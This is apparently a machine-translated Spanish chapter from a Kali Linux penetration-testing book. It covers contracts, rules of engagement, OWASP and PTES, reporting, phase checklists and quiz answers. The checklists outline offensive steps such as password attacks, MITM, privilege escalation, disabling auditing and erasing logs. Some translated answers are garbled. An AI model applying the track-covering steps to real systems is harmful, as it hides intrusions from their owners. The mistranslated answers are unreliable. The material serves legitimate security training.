Como futuro profesional en la industria, asegúrate de contar con un **contrato de prueba de penetración** debidamente redactado, que incluya acuerdos de **confidencialidad** y **no divulgación** (**NDA**), revisado y verificado por un abogado. Esto es para garantizar que la información del cliente (organización objetivo) esté protegida y que usted (el evaluador de penetración) no revelará ninguna información sobre el cliente a menos que lo exija la ley. Además, el NDA genera confianza entre el cliente y usted, el evaluador de penetración, ya que muchas organizaciones no quieren que sus vulnerabilidades sean conocidas por otros.

Si durante una reunión de negocios con un nuevo cliente le preguntan sobre pruebas de penetración anteriores que haya realizado y sobre información de clientes, no revele ningún detalle. Esto contravendría el acuerdo de confidencialidad, que protege a sus clientes y a usted mismo y genera confianza. Sin embargo, Puedes simplemente explicarle al nuevo cliente potencial lo que puedes hacer por su organización, los tipos de pruebas que se pueden realizar y algunas de las herramientas que se pueden utilizar durante las fases de prueba.

## Reglas del compromiso

Durante la reunión de negocios con el cliente (la organización objetivo), asegúrate de que tanto usted como el cliente comprendan las reglas de exposición antes de la prueba de penetración propiamente dicha. Las reglas de exposición son simplemente un documento creado por el proveedor de servicios (evaluador de penetración) que describe qué tipos de pruebas de penetración se deben realizar, así como otros detalles específicos. Estos incluyen el área de la red que se va a evaluar, así como los objetivos en la red, como servidores, dispositivos de red y estaciones de trabajo. En pocas palabras, las reglas de exposición definen la manera en que se debe realizar la prueba de penetración e indican los límites en relación con la organización objetivo.

Asegúrate de haber obtenido la información de contacto clave de la persona dentro de la organización de destino en caso de que se produzca una emergencia. Como evaluador de penetración, Puedes haber una crisis y es posible que deba ponerse en contacto con alguien para solicitar ayuda, por ejemplo, si está realizando sus pruebas fuera del horario laboral dentro de un edificio.

Durante una prueba de penetración, si descubre alguna violación de los derechos humanos o actividades ilegales en los sistemas o redes de la organización en cuestión, deténgase inmediatamente y denúncielo a las autoridades locales (la policía). Si descubre una brecha de seguridad en la infraestructura de la red, deténgase e infórmelo a la persona con autoridad dentro de la organización y/o a las autoridades locales. Como evaluador de penetración, debe tener buena moral y respetar la ley; los derechos humanos y la seguridad siempre son lo primero, y todas las actividades ilegales deben ser denunciadas a las autoridades correspondientes.


## Consejos y trucos adicionales

Antes de ejecutar cualquier herramienta de prueba de penetración en la red de una organización de destino, siempre pruébela en un entorno de laboratorio para determinar si utiliza mucho ancho de banda de red, así como para determinar el nivel de ruido que crea. Si una herramienta utiliza mucho ancho de banda, no tiene sentido utilizarla en una organización de destino cuya red sea lenta. La herramienta puede consumir todo el ancho de banda en un segmento de red, lo que provoca un punto de estrangulamiento en la red; esto es malo.

Utiliza escáneres de vulnerabilidades para realizar y automatizar escaneos periódicos de la red. Los escáneres de vulnerabilidades pueden ayudar a una organización a cumplir con los estándares y la normativa. Herramientas como **Nessus** ( www.tenable.com ) y **Nexpose** ( www.rapid7.com ) son escáneres de vulnerabilidades y herramientas de gestión de confianza dentro de la industria de la ciberseguridad.

Además, aprenda sobre diferentes sistemas operativos, como Windows, Linux y macOS. Agregue algunos temas de seguridad de red como parte de su aprendizaje. Comprender la seguridad de red y las redes empresariales lo ayudará a mapear una red de destino y a eludir los dispositivos de seguridad de red con un poco más de facilidad.

En la siguiente sección, analizaremos los planes y listas de verificación de seguridad de aplicaciones web.


## Planes y listas de verificación de seguridad de aplicaciones web

Al realizar una prueba de penetración en un sistema o red, se utiliza un conjunto de pautas aprobadas o recomendadas para garantizar que se obtenga el resultado deseado. Una metodología de prueba de penetración generalmente consta de las siguientes fases:

1. Recopilación de información
2. Escaneo y reconocimiento
3. Toma de huellas dactilares y enumeración
4. Evaluación de vulnerabilidad
5. Investigación y verificación de exploits
6. Informes


Seguir una lista de verificación de este tipo garantiza que el evaluador de penetración complete todas las tareas de una fase antes de pasar a la siguiente. En este libro, comenzamos con la fase de recopilación de información y avanzamos gradualmente a partir de allí. Los primeros capítulos cubrieron las primeras fases y enseñaron cómo obtener detalles confidenciales sobre un objetivo, mientras que los capítulos posteriores cubrieron el uso de la información encontrada para obtener acceso a un objetivo mediante varios métodos.

En la siguiente sección, aprenderemos sobre el **Top 10** **del Proyecto de Seguridad de Aplicaciones Web Abiertas (OWASP)** .

## OWASP

OWASP es una fundación sin fines de lucro que se centra en permitir que las personas y las comunidades desarrollen, prueben y mantengan aplicaciones en las que todos puedan confiar.

OWASP ha creado la lista **OWASP Top 10** de vulnerabilidades web, que se ha convertido en un estándar para las pruebas de aplicaciones web:

- A1:2017 – Inyección
- A2:2017 – Autenticación interrumpida
- A3:2017 – Exposición de datos confidenciales
- A4:2017 – Entidades externas XML (XXE)
- A5:2017 – Control de acceso roto
- A6:2017 – Configuración incorrecta de seguridad
- A7:2017 – Secuencias de comandos entre sitios (XSS)
- A8:2017 – Deserialización insegura
- A9:2017 – Uso de componentes con vulnerabilidades conocidas
- A10:2017 – Registro y monitoreo insuficientes

Cada categoría proporciona un desglose detallado de todas las vulnerabilidades, métodos y técnicas de descubrimiento, contramedidas y mejores prácticas para reducir el riesgo.

Puedes encontrar más información sobre el **proyecto OWASP Top 10 en** https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project . Además, Puedes encontrar la **Guía de pruebas de OWASP en** https://www.owasp.org/index.php/OWASP_Testing_Project .

Además, sigue practicando para mejorar tus habilidades en términos de comprensión del OWASP Top 10. El proyecto OWASP **Broken Web Applications** (**BWA**) te ayudará en tu viaje.


En la siguiente sección, veremos cómo comprender las fases del **estándar de ejecución de pruebas de penetración** (**PTES**).

## Estándar de ejecución de pruebas de penetración

PTES consta de varias fases que cubren diversos aspectos de las pruebas de penetración:

1. Interacciones previas al compromiso
2. La recogida de información
3. Modelado de amenazas
4. Análisis de vulnerabilidad
5. Explotación
6. Post explotación
7. Informes

Puedes encontrar más información sobre PTES en http://www.penteststandard.org/index.php/Main_Page .

La elección del estándar o marco de pruebas de penetración depende del tipo de prueba solicitada por el cliente, la industria del objetivo (como HIPAA para la industria de la salud) e incluso la metodología de pruebas de penetración de su organización.

En la siguiente sección discutiremos la importancia de la fase de informe.

## Informes

La fase final de una prueba de penetración consiste en informar y entregar los resultados. En esta fase, el evaluador de penetración crea un documento oficial que describe lo siguiente:

- Todas las vulnerabilidades encontradas en los objetivos
- Todos los riesgos, categorizados en una escala de alto, medio y bajo, según la calculadora del **Sistema de Puntuación de Vulnerabilidad Común** (**CVSS**)
- Métodos recomendados de remediación para las vulnerabilidades encontradas


Asegúrate de que, al redactar su informe, pueda ser comprendido por cualquier persona que lo lea, incluso por personas sin conocimientos técnicos, como la alta dirección y el personal ejecutivo. El personal directivo no siempre es técnico, ya que está más centrado en garantizar que se cumplan los objetivos y metas empresariales dentro de la organización.

El informe también deberá contener lo siguiente:

- Portada
- Resumen ejecutivo
- Resumen de vulnerabilidades
- Detalles de la prueba
- Herramientas utilizadas durante las pruebas (opcional)
- El alcance original del trabajo
- El cuerpo del informe
- Resumen

Puedes encontrar más información sobre la redacción de informes de pruebas de penetración en https://resources.infosecinstitute.com/writing-penetration-testing-reports/ .

Recuerde siempre que si le pregunta a 10 evaluadores de penetración diferentes cómo escribir un informe, todos le darán respuestas diferentes en función de su experiencia y de sus empleadores. Asegúrate de no insertar demasiadas imágenes o demasiados términos técnicos que puedan confundir al lector. Debe ser fácil de leer para cualquier persona sin conocimientos técnicos.

En las siguientes secciones, describiremos los conceptos básicos para crear una lista de verificación de pruebas de penetración.

## Lista de verificación de pruebas de penetración

Recomendaría los siguientes requisitos de hardware para una máquina de pruebas de penetración:

- Procesador de cuatro núcleos
- 8 GB de RAM (mínimo)
- Adaptador de red inalámbrica
- Tarjeta de interfaz de red Ethernet

A continuación, nos familiarizaremos con la creación de una lista de verificación de recopilación de información.


## Recopilación de información

Las siguientes son las tareas a realizar antes y durante la fase **de recopilación de información** :

1. Obtenga permiso legal.
2. Definir el alcance de la prueba de penetración.
3. Realizar recopilación de información utilizando motores de búsqueda.
4. Realizar técnicas de hackeo de Google.
5. Realizar recopilación de información utilizando sitios web de redes sociales.
6. Realizar el seguimiento del sitio web.
7. Realizar WHOISrecopilación de información.
8. Realizar la recopilación de información de DNS.
9. Realizar la recopilación de información de la red.
10. Realizar ingeniería social.

En la siguiente sección, veremos una lista de verificación para el escaneo de red.

## Escaneo de red

A continuación se muestra una lista de pautas para realizar **un escaneo en red** :

1. Realizar el descubrimiento de host en la red.
2. Realizar escaneo de puertos para determinar los servicios.
3. Realizar captura de banners de los sistemas operativos y puertos de destino.
4. Realizar escaneo de vulnerabilidades.
5. Cree una topología de red de la red de destino.

A continuación, aprenderemos sobre los requisitos fundamentales para una lista de verificación de enumeración.

## Enumeración

La siguiente es una lista de pautas para realizar la enumeración en un sistema de destino:

1. Determinar el rango de la red y calcular la máscara de subred.
2. Realizar el descubrimiento del host.
3. Realizar escaneo de puertos.

1. Realizar técnicas de enumeración SMB y NetBIOS.
2. Realizar enumeración LDAP.
3. Realizar enumeración de DNS.

En la siguiente sección, veremos una lista de verificación de explotación.

## Ganando acceso

La siguiente es una lista de pautas para **obtener acceso** a una red/sistema:

1. Realizar ingeniería social.
2. Realizar surfing sobre el hombro.
3. Realizar varios ataques de contraseña.
4. Realizar rastreo de red.
5. Realizar ataques **Man-in-the-Middle** (**MITM ).**
6. Utiliza diversas técnicas para explotar los sistemas de destino y obtener un shell (es decir, obtener acceso a través de una línea de comandos).
7. Descubra otros dispositivos que utilizan el movimiento lateral.
8. Intente escalar privilegios en el sistema comprometido.

En la siguiente sección, describiremos los fundamentos de una lista de verificación de cobertura de pistas.

## Cubriendo pistas

A continuación se muestra una lista de pautas para **cubrir pistas** :

1. Deshabilitar las funciones de auditoría en el sistema.
2. Borrar archivos de registro.

Una vez completada esta sección, ahora tiene las habilidades necesarias para crear una lista de verificación de pruebas de penetración completa que se adapte a sus necesidades.


## Resumen

Al completar este capítulo, tendrá un nivel básico de comprensión de las mejores prácticas en el campo de las pruebas de penetración. Las pautas que se enumeran en las secciones posteriores del capítulo lo ayudarán a determinar los pasos a seguir durante una prueba de penetración. Recuerde: está aprendiendo: desarrollar su propia estrategia y técnicas será algo natural. Asegúrate de documentar sus técnicas y habilidades a medida que avanza en su carrera.

Espero que este capítulo y este libro hayan sido útiles para sus estudios y los beneficien en su camino en la ciberseguridad. ¡Gracias por su apoyo!


## Preguntas

1. ¿Qué se requiere antes de una prueba de penetración para garantizar que quien la realiza esté protegido?
2. ¿Qué tipo de documento se utiliza para delinear el trabajo?
3. ¿Cómo se puede determinar el nivel de riesgo de una vulnerabilidad?
4. ¿Cuál es la última fase de una prueba de penetración?


## Otras lecturas

- Reglas de entrada: https://hub.packtpub.com/penetration-testing-rules-of-engagement/ .
- Metodologías de pruebas de penetración: https://resources.infosecinstitute.com/penetration-testing-methodologies-and-standards/ .
- Se pueden encontrar metodologías de pruebas de penetración adicionales en https://www.owasp.org/index.php/Penetration_testing_methodologies .


Los siguientes son algunos sitios web que le ayudarán a determinar la gravedad de los riesgos e investigar las amenazas en el mundo de la ciberseguridad:

- CVE: https://cve.mitre.org/
- Sistema de información de CVSS: https://www.first.org/cvss/
- OWASP: https://www.owasp.org
- SANS: https://www.sans.org/
- Base de datos de exploits: https://www.exploit-db.com/
- Enfoque de seguridad: https://www.securityfocus.com/


Por último, continúe siempre aprendiendo más y mejorando sus habilidades. A continuación, se incluye una lista de certificaciones que le aportarán valor como evaluador de penetración:

- **Profesional certificado en seguridad ofensiva** (**OSCP**): www.offensive-security.com
- **Hacker ético certificado** (**CEH**): www.eccouncil.org
- **Certificaciones GIAC** : www.giac.org


# Evaluaciones


## Capítulo 1: Introducción al hacking

1. Script kiddie
2. Cubriendo pistas
3. OWASP
4. Prueba de caja negra
5. Patrocinado por el estado


## Capítulo 2: Configuración de Kali - Parte

1. Un hipervisor de tipo 2
2. Se requiere menos espacio físico, menor consumo de energía y menores costos.
3. VMware ESXi, Oracle VirtualBox y Microsoft Virtual PC
4. Usando el comando `dpkg -i <application file>`
5. Un sistema operativo invitado


## Capítulo 4: Familiarizándose con Kali Linux~~2019~~ 2024

1. Retractarse
2. apt-get update
3. apt-get upgrade
4. apt-get install <application name>
5. locate <file>


## Capítulo 5: Recopilación pasiva de información

1. Para recopilar información sobre el objetivo, como detalles de la red y del sistema e información organizativa (directorio de la empresa y detalles de los empleados, por ejemplo)
2. Maltego, Dig, NSlookup, Recon-ng, theHarvester y Shodan
3. Mediante el uso de la site: <keyword> sintaxis
4. La base de datos de exploits
5. quién es
6. Utilizando la herramienta Sublist3r


## Capítulo 6: Recopilación activa de información

1. Resolver nombres de host en direcciones IP.
2. Una transferencia de zona DNS permite copiar un archivo de zona de un servidor DNS maestro a otro servidor, como un servidor DNS secundario.
3. Mapamundi.
4. Fragmentación de paquetes.
5. Explorador JX.


## Capítulo 7: Cómo trabajar con escáneres de vulnerabilidades

1. server nessusd start
2. **Estándar de seguridad de datos de la industria de tarjetas de pago** (**PCI DSS**)
3. Ejecutivo y personalizado
4. Nikto, Burp Suite y WPScan
5. Escaneo WPS


## Capítulo 8: Comprensión de las pruebas de penetración en la red

1. macchanger
2. Ad hoc, administrar, dominar, repetidor, secundario y monitorizar
3. ifconfig
4. airmon-ng check kill


## Capítulo 9: Pruebas de penetración de red: ataques previos a la conexión

1. aire-ng
2. ESSID
3. Código 2: la autenticación anterior ya no es válida y código 3: la desautenticación continúa
4. aireplay-ng


## Capítulo 10: Pruebas de penetración de red: cómo obtener acceso

1. **Estándar de cifrado avanzado** (**AES**)
2. Aplicaciones de enumeración de Citrix
3. 3389
4. Ncrack, Hydra, John el Destripador y Hashcat
5. Servidor de autenticación (servidor de control de acceso)
6. El comando search
7. IEEE802.1x


## Capítulo 11: Pruebas de penetración de red: ataques posteriores a la conexión

1. Yersinia
2. getsystem
3. Para resolver una dirección IP en una dirección MAC
4. **Shell seguro** (**SSH**)
5. Usando el comando whoami


## Capítulo 12: Pruebas de penetración en la red: detección y seguridad

1. Mediante el uso de encriptación de datos y protocolos seguros.
2. Envenenamiento por ARP.
3. DAI-Inglés.
4. Telnet envía sus paquetes en texto simple y no admite cifrado.
5. Usando el script sniffer-detect dentro de Nmap.


## Capítulo 13: Ataques del lado del cliente: ingeniería social

1. Escuchas clandestinas
2. Suplantación de identidad
3. Smishing
4. SET y el estafador fantasma


## Capítulo 14: Realización de pruebas de penetración en sitios web

1. Apache, IIS y Nginx
2. Dirb, Destructor de directorios
3. Código de estado HTTP 200
4. **Secuencias de comandos entre sitios** (**XSS**)
5. **Inyección de lenguaje de consulta estructurado** (**SQL**)


## Capítulo 15: Pruebas de penetración de sitios web: cómo obtener acceso

1. FROM
2. Mediante el uso del punto y coma ( ;)
3. Al utilizar el comando INSERT
4. Carne de res


## Capítulo 16: Mejores prácticas

1. Permiso legal por escrito de la organización de destino
2. Un contrato con el RoE
3. Utilizando la calculadora CVSS
4. Cubriendo pistas y reportando


# Otros libros que te pueden interesar

Si te ha gustado este libro, Puedes que te interesen estos otros libros de Packt:


- **Kali Linux: un libro de cocina para hackers éticos (segunda edición)**
  Himanshu Sharma

	ISBN: 978-1-78995-230-8

   - Aprenda a instalar, configurar y personalizar Kali para realizar pruebas de penetración en múltiples plataformas
   - Enrutadores y dispositivos integrados para pruebas de penetración
   - Obtenga información sobre cómo jugar con la radio definida por software
   - Pwn y escalar a través de una red corporativa
   - Redactar informes de seguridad de buena calidad
   - Explora la informática forense y el análisis de memoria con Kali Linux


- **Pruebas de penetración prácticas de AWS con Kali Linux**
  Benjamin Caudill, Karl Gilbert

​	ISBN: 978-1-78913-672-2

   - Familiarícese con los servicios externos más comunes de AWS y realice pruebas de penetración.
   - Audite su propia infraestructura e identifique fallas, debilidades y lagunas.
   - Demuestre el proceso de movimiento lateral y vertical a través de una cuenta de AWS parcialmente comprometida
   - Mantener el sigilo y la persistencia dentro de una cuenta de AWS comprometida
   - Domine un enfoque práctico para realizar pruebas de penetración
   - Descubra una serie de herramientas automatizadas para facilitar el proceso de evaluación y mejora continua de la seguridad de una infraestructura de AWS


## Deja una reseña: deja que otros lectores sepan lo que piensas

Por favor, comparta sus opiniones sobre este libro con otras personas dejando una reseña en el sitio en el que lo compró. Si compró el libro en Amazon, déjenos una reseña honesta en la página de Amazon de este libro. Esto es vital para que otros lectores potenciales puedan ver y usar su opinión imparcial para tomar decisiones de compra, para que podamos entender lo que nuestros clientes piensan sobre nuestros productos y para que nuestros autores puedan ver sus comentarios sobre el título que han trabajado con Packt para crear. Solo le llevará unos minutos de su tiempo, pero es valioso para otros clientes potenciales, nuestros autores y Packt. ¡Gracias!


---

Original: https://www.packtpub.com/free-ebook/learn-kali-linux-2019/9781789611809